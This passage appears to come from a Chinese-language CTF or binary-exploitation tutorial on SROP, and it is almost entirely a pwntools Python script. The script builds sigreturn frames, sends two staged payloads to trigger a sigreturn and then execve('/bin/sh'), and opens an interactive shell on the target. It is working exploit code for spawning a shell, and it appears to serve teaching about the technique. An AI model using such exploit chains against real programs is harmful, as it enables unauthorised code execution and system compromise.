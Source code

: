 ```python
    frame_read.rip = syscall_addr

    payload1 = p64(start_addr)  # 从新执行，读取payload
    payload1 += p64(syscall_addr)
    payload1 += str(frame_read)

    p.send(payload1)
    sleep(3)
    p.send(payload1[8:8+15])    # 触发SROP
    sleep(3)

    frame_execve = SigreturnFrame()
    frame_execve.rax = constants.SYS_execve
    frame_execve.rdi = stack_addr+0x108 # len(str(frame_execve))+8+8
    frame_execve.rsp = stack_addr
    frame_execve.rip = syscall_addr

    payload2 = p64(start_addr)   # 重新执行读取payload
    payload2 += p64(syscall_addr)
    payload2 += str(frame_execve)
    payload2 += '/bin/sh\x00'

    p.send(payload2)
    sleep(3)
    p.send(payload2[8:8+15])
    sleep(3)
    p.interactive()
```

![Alt](img/SROP18.png)
